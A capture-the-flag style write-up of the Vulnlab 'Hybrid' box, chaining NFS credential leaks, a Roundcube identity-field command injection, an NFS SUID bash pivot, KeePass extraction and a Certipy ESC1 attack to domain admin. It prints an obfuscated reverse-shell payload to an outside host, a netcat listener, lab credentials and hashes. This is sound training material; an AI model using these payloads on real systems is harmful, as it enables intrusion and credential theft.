# Hybrid -- Vulnlab (write-up)

**Difficulty:** Hard
**Box:** Hybrid (Vulnlab)
**Author:** dsec
**Date:** 2025-08-06

---

## TL;DR

### Two-machine chain. NFS share leaked Roundcube credentials. Command injection via Roundcube identity email field. NFS SUID bash trick for user pivot. KeePass DB revealed AD creds. Certipy ESC1 via machine account keytab for domain admin.

---

## Target info

- DC: `10.10.180.5` (hybrid.vl)
- Mail: `10.10.180.6` (mail01)
- Services (DC): `53/tcp`, `88/tcp`, `135/tcp`, `139/tcp`, `389/tcp`, `445/tcp`, `464/tcp`, `593/tcp`, `636/tcp`, `3268/tcp`, `3269/tcp`, `3389/tcp`, `9389/tcp`
- Services (Mail): `22/tcp`, `25/tcp`, `80/tcp`, `110/tcp`, `111/tcp`, `143/tcp`, `587/tcp`, `993/tcp`, `995/tcp`, `2049/tcp (nfs)`

---

## Enumeration

```bash
nmap 10.10.180.5 -vvv -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,3389,9389,49664,49667,49669,54481,54571,54585,54599,54628,64403 -Pn
```













```bash
nmap 10.10.180.6 -vvv -sCV -p22,25,80,110,111,143,587,993,995,33423
```











Rustscan revealed port 2049 (NFS) not shown in initial nmap:



```bash
showmount -e 10.10.180.6
```



Mounted the NFS share:

```bash
mkdir share
sudo mount -t nfs 10.10.180.6:/opt/share /home/daniel/VL/hybrid/share
```



Found credentials:

- `admin@hybrid.vl:Duckling21`
- `peter.turner@hybrid.vl:PeterIstToll!`

---

## Foothold

Logged into Roundcube with full email (just username didn't work):





Command injection via identity email field in Roundcube Settings > Identities:

Changed email to:

```
admin&echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIuMjA2LzIyMjIgMD4mMQ==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash&@hybrid.vl
```

(Base64 decodes to: `bash -i >& /dev/tcp/10.8.2.206/2222 0>&1`)

Started listener and marked inbox email as junk to trigger:

```bash
rlwrap -cAr nc -lnvp 2222
```



---

## Privilege escalation (mail01)



Checked `/etc/exports` -- no `no_root_squash`, so standard SUID bash approach wouldn't work directly. Needed to create a user on attacker machine matching victim's UID.

Victim `peter.turner` UID was `902601108`. Had to increase UID_MAX in `/etc/login.defs`:







Created matching user and mounted share:

```bash
sudo mount -t nfs 10.10.235.182:/opt/share /tmp/test
cp /bin/bash .
chmod +s ./bash
```



On victim:

```bash
/opt/share/bash -p
```



---

## Lateral movement to DC

Found KeePass database. Extracted password:

```bash
kpcli passwords.kdbx
```



`b0cwR+G4Dzl_rw`





Ran Certipy to find vulnerable certificate templates:

```bash
certipy find -u peter.turner@hybrid.vl -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.235.181
```





Domain Computers had enrollment rights on `HYBRIDCOMPUTERS` template. Extracted machine account hash from `krb5.keytab`:

```bash
python3 keytabextract.py krb5.keytab
```





Hash: `0f916c5246fdbc7ba95dcef4126d57bd`

Requested certificate as administrator:

```bash
certipy req -u 'MAIL01$' -hashes ":0f916c5246fdbc7ba95dcef4126d57bd" -dc-ip "10.10.232.21" -ca 'hybrid-DC01-CA' -template 'HYBRIDCOMPUTERS' -upn 'administrator' -target 'dc01.hybrid.vl' -key-size 4096 -debug
```



Authenticated with the certificate:

```bash
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.232.21
```



Admin hash: `60701e8543c9f6db1a2af3217386d3dc`



---

## Lessons & takeaways

- NFS shares without `no_root_squash` can still be abused by creating a local user with a matching UID
- Roundcube identity email fields can be exploited for command injection
- Machine account keytabs (`krb5.keytab`) contain hashes usable for Certipy ESC attacks
- Always check certificate templates with Certipy when you have domain user creds
---
